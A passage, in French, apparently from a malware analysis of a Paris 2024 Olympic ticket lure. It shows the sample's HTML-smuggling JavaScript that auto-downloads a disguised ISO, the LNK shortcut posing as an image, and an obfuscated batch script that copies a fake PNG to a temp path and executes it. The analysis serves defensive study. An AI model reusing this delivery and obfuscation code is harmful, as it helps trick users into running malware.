 ```javascript
        var fd = b64tAb(f)
        var pf = d(fd,85)
        var blob = new Blob([pf], {type: 'None'});
        var a = document.createElement('a')
        document.body.appendChild(a)
        a.style = "display: none"
        var url = window.URL.createObjectURL(blob)
        console.log(blob)
        a.href = url
        a.download = "JO-PARIS2024-Billets.iso"
        a.click()
     </script>
```

Le fichier téléchargé est une ISO :

```bash
$ file JO-PARIS2024-Billets.iso 
JO-PARIS2024-Billets.iso: ISO 9660 CD-ROM filesystem data '21_03_2024'
```

Si on monte l’ISO sur une machine Windows avec les configurations de base, pour un utilisateur lambda, le contenu de l’ISO ressemble à une image :

 ![](attachments/c16b52af-d48e-48e4-be0d-db96919830a9.png)

Pour un utilisateur un peu plus averti ou avec les paramètres "afficher les éléments masqués" et "afficher les extensions des fichiers" activés, on comprend que l’image est en réalité un raccourci (LNK). De plus, on peut remarquer la présence de 3 autres fichiers avec l’attribut "caché".

* `billets.png`
* `img.jpg`
* `rickroll.cmd`

 ![](attachments/437b3159-a50c-458f-a5d2-d1f743dcde8e.png)

Le LNK lance le script `rickroll.cmd`:

```bash
$ cat JO-PARIS2024-Billets.lnk 
L�F�E�P�O� �:i�+00�/D:\f2rickroll.cmdJ  ��.rickroll.cmd
                                                       shell32.dll
```

Le script `rickroll.cmd`est légèrement obfusqué :

```bash
$ cat rickroll.cmd            
@echo off
SETLOCAL EnableDelayedExpansion

start img.jpg

set exe2=bi
set u168=ll
set u798=e
set exe1=ts
set u415=.pn
set ia=g
set v152=%temp%\%random%.%random%
echo f|xcopy %exe2%%u168%%u798%%exe1%%u415%%ia% %v152% /h /s /e /f
start /B %v152%                                    
```
